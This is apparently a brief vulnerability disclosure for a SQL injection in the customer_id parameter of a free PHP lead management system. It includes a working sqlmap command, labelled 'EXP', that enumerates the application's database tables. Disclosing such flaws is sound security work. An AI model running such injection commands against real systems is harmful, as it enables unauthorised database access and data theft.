 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $customer_id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208409975-158d10ce-819d-4ba6-9851-73331d9496a5.png)


EXP

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/ajax_represent.php" --data "customer_id=1" --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208410046-36eb9f64-0f5e-425d-927a-111864e74ff3.png)

